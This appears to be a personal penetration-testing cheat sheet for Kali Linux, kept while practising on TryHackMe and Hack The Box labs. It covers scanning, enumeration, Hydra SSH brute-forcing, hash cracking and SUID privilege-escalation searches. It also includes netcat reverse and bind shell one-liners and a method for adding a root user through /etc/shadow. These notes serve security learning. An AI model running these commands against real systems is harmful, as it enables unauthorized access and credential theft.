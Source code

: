 ## CHEATSHEET FOR KALI LINUX

_SELFNOTE: Obsidian for note-taking - Download directory ./Obsidian..._

## NESSUS

A commercial vulnerability assessment tool developed by Tenable.
It scans networks, hosts, and applications for known vulnerabilities, misconfigurations,
weak passwords, missing patches, and compliance issues.

start nessus by following command: `/bin/systemctl start nessusd.service`
Then go to https://localhost:8834
Check if nessus is running: `sudo service nessusd status`

---

## NIKTO

_Nikto_ is a web server scanner that can be used to find common vulnerabilities,
misconfigurations, and outdated software versions.
While not solely focused on directory brute-forcing,
it does include directory scanning as part of its functionality.

```bash
nikto -h <ip-target>
```

---

## NMAP

This scan all ports with timing template "aggressive" and with enabled OS, script and version detection

```bash
nmap -T4 -p- -A <ip>
```

---

## Gobuster

Fast discovery tool, great for brute-forcing URI's (directories and files),
DNS subdomains and virtual host names

```bash
gobuster dir -u http://10.10.239.8:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

---

## Enum4linux

When you execute the `enum4linux -a 10.10.197.2` command,
the _enum4linux_ tool will initiate an enumeration against the specified Windows system.
It will interact with the target system using various protocols and
techniques, attempting to gather information about users, groups, shares, and other relevant details.
The -v option will provide verbose output so you can see the progress and results of the enumeration.

```bash
enum4linux -a 10.10.197.52
```

---

## Linpeas.sh

very good for enumerate _linux/MacOS/windows_

```bash
./linpeas.sh | tee linpeas.log
```

---

## Hydra

Bruteforcing tool

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.197.52
```

---

## GTFOBINS

_Gfobins_ is a curated collection of Unix-like system binaries,
that can be used by attackers for privilege escalation,
escaping restricted environments, or executing commands with elevated privileges.
These binaries have certain configurations or functionalities
that can be abused by attackers to gain unauthorized access or execute commands on a target system.

https://gtfobins.github.io/gtfobins/systemctl/#suid // SUID (set owner userId upon execution)

---

## Linux cli

`sudo -l` lists all programs runnable as sudo

`find / -type f -perm -4000 2>/dev/null` This command will search the entire filesystem `/`
for files with the _SUID_ bit set `-perm -4000` and display their paths.

- !! Gives the last command typed - lets say `rm -r <directory>` which needs sudo so
  instead of retyping this can be typed: `sudo !!`
- Arguments: `$_` previous command last argument
- \$? \$? is a special variable that holds the exit status or return code of the last executed command
- `touch{0,1,2,3,4}` this gonna create foo0, foo1, foo2, foo3, foo4
- {a..j} this gonna create a,b,c,d,e…. So a through j
- systemctl(systemcontrol) sudo systemctl enable/disable httpd.service
- that will either make the given service to start or not when booting.
- sudo systemctl start|stop|restart httpd.service
- journalctl - logs from systemd
- dmesg - used for displaying kernel ring buffer messages
- amass - amass enum -d Tesla.com
- netdiscover (netdiscover -r 192.168.1.0/24
- arp-scan (arp-scan -l)
- sudo apt (sudo apt auto remove
- nikto (scanning webservers for vulnerbilities) nikto -h http://192.168.1.182
- dirbuster / gobuster — directory busting
  Reverse shell target connects to attacker (attacker gets control of shell)
  Binding shell attacker connects target (target gets control of shell)
- nc -nvlp 4444 (netcat start listening on port 4444) (sets up nectat listener)
- nc 192.168.1.159 4444 -e /bin/bash (establishes to listening netcat port)
- ssh-keygen // this generates a ssh keypair public and private

## Netcat

**_NETCAT REVERSE SHELL_**
ATTACKBOX: listening --> nc -nvlp 4444
TARGET: Connecting --> nc <ip> 4444 -e /bin/sh
BIND SHELL
ATTACKBOX: Connecting --> nc <ip> 4444
TARGET: Listening --> nc -nvlp 4444 -e /bin/sh
--> consider adding rlwrap for the listening shell --> rlwrap nc -nvlp 4444

---

## Remina

Very fine tool for _RDP connection_

---

## Steghide

steghide --> embeding stuff into files like images etc.
steghide info aa.jpg
steghide extract aa.jpg

---

## Cyberchef

CYBERCHEF websitet briliant for hashing and dehashing...

---

## More linux cli

USING FIND (locate file with exe perm as root) `find / -user root -perm /4000 2>/dev/null`
see what to run as **_SUDO_** `sudo -l`
`find / -perm -u=s -type f 2>/dev/null`

---

## John the Ripper

JOHN THE RIPPER -->    john --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt hashB.txt
(hash decrypter)    give file containing original string to encrypt and check against file containing hash string

ssh2john: -->        Trying to perform a brute-force or dictionary attack on an encrypted private key file, you can use
John the Ripper in combination with another tool like ssh2john to convert the private key into a format that John the
Ripper can work with.
ssh2john kay_id_rsa > forjohn.txt

HASH-IDENTIFIER -->    cat hashB.txt | hash-identifier
Checks with hashing type used for current hashed string

BASE64, 32, 58... -->    cat encoded.txt| base64 -d
perfect encoder for base64 or the others -- encode and decode

---

## Exiftool

Allows you to read, write, and manipulate metadata _EXIF, IPTC, XMP, and other types_ in various
types of files, including image, audio, and video files.
_ExifTool_ is written in _Perl_ and is available for use on various operating systems,
including _Linux, Windows, macOS_, and more.

Used for **_seasurfer THM_**: downloaded an PDF where _exiftool_ `seaSurf.pdf` command
showed what _pdfgenerater_ was used for the _pdfcreater_ which was exploitable exiftool WindowsXP.jpg

---

## Nc reverse shell

upgrade nc reverse shell --> `python3 -c 'import pty; pty.spawn("/bin/bash")'`
to a more stable shell export TERM=xterm
CTRL+Z
stty raw -echo; fg

---

## HACK THE BOX:

Very nice intro about common knowledges for dealing with cyber security logging and stuff
--> https://academy.hackthebox.com/module/87/section/880

python3 webserver -->    python3 -m http.server 9000

generate linux psw ->    openssl passwd -1 -salt <salt> <passwowd>
this generates a hashed password to insert into /etc/shadow file for creating a user with root

smtp-user-enum ->    smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.100.3
this checks for valid emails for target ip

LINUX ENUM -->
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

